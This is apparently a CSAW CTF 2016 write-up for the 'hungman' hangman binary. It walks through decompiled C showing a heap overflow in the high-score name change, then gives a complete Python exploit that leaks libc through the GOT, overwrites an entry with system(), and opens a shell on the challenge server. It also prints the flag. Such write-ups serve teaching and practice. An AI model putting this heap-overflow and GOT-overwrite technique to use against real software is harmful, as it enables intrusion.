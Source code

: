 ```yaml
---
layout: post
title: csaw ctf 2016 hungman writeup
category: writeup
---
```


problem binary serves simple hangman service.

```
$ ./hungman
What's your name?
HELLO
Welcome HELLO
_____
q
_q___
d
_q___
s
_q___
a
Default Highscore  score: 64
Continue? n
$
```

it has vulnerability at saving name of high-score.
```c

...
    if ( str_name->score > highScore )
    {
      puts("High score! change name?");
      __isoc99_scanf(" %c", &v3);
      if ( v3 == 'y' )
      {
        s = malloc(0xF8uLL);
        memset(s, 0, 0xF8uLL);
        v8 = read(0, s, 0xF8uLL);
        str_name->len = v8;
        v14 = strchr((const char *)s, '\n');
        if ( v14 )
          *v14 = 0;
        memcpy(str_name->buf, s, v8);
        free(s);
      }
      snprintf(highScoreName, 0x200uLL, "Highest player: %s", str_name->buf);
      highScore = str_name->score;
    }
    memset(&str_name->field_10, 0, 0x1AuLL);
    free(buf);
  }
}
```

It is easy to know that if str_name->buf was malloc with less then 0xF8, heap overflow occured.

So we need to analyze when str_name initiallized.

```c
str *get_name()
{
  char *v0; // ST10_8@3
  str *str_name; // ST18_8@3
  str *result; // rax@3
  __int64 v3; // rbx@3
  int v4; // [rsp+Ch] [rbp-124h]@1
  char *v5; // [rsp+10h] [rbp-120h]@1
  char s; // [rsp+20h] [rbp-110h]@1
  __int64 v7; // [rsp+118h] [rbp-18h]@1

  v7 = *MK_FP(__FS__, 40LL);
  write(1, "What's your name?\n", 0x12uLL);
  memset(&s, 0, 0xF8uLL);
  v4 = read(0, &s, 0xF7uLL);
  v5 = strchr(&s, '\n');
  if ( v5 )
    *v5 = 0;
  v0 = (char *)malloc(v4);
  str_name = (str *)malloc(0x80uLL);
  memset(str_name, 0, 0x80uLL);
  str_name->buf = v0;
  str_name->len = v4;
  memcpy(str_name->buf, &s, v4);
  result = str_name;
  v3 = *MK_FP(__FS__, 40LL) ^ v7;
  return result;
}
```

str_name->len is same as length of my name.

if your name is short, chance of getting highscore gets lower ( because hangman string is initialized with your name ) so we have to choose appropriate length of name, I choose 40.


if heap was overflowed, we can easily get offset of libc binary with .got section, and finaly overwrite to system.

```python
#!/usr/bin/python

import pwnbox
import struct
import argparse
import time

#flag{this_looks_like_its_a_well_hungman}

parser = argparse.ArgumentParser(description='hungman exploit')
parser.add_argument("-l", "--local", action="store_true")

args = parser.parse_args()

def get_highscore():
    x = 'a'
    while True:
        d = p.read_until('\n')
        if 'change name?' in d:
            p.write('y\n')
            return
        else:
            p.write('%c\n' % x)
            x = chr((ord(x)+1) % 26 + ord('a'))

got_snprintf = 0x602048
got_trash = 0x602010

if args.local:
    p = pwnbox.pipe.ProcessPipe('./hungman')
    offset_snprintf = 0x544b0
    offset_gets = 0x6F440
    offset_system = 0x46640
    offset_trash = 0x3db4e0

else:
    p = pwnbox.pipe.SocketPipe('pwn.chal.csaw.io',8003)
    offset_snprintf = 0x55860
    offset_gets = 0x6ECC0
    offset_system = 0x45380
    offset_trash = 0x3e0c80

p.read_until('name?\n')
p.write('A'* (16 * 3 - 8)  + '\n')
p.read_until('\n')
get_highscore()

dummy = "".ljust(0x4C - 8, "A")
payload = ''
payload += struct.pack("<I", 4)
payload += struct.pack("<Q", got_trash)
p.write(dummy + payload)

p.read_until('Highest player: ')

libc_trash = struct.unpack("<Q",p.read_until('score: ')[:6].ljust(8,'\x00'))[0]

libc_base = libc_trash - offset_trash
libc_gets = libc_base + offset_gets
libc_system = libc_base + offset_system

print "%x" % libc_base

p.read_until('Continue? ')
p.write('y')

get_highscore()

payload = ""
payload += "/bin/sh\x00"
payload += struct.pack("<Q",libc_system)
p.write(payload)
#p.write('y\n')

#get_highscore()
#p.write(struct.pack("<Q",libc_system))

p.interact()
```
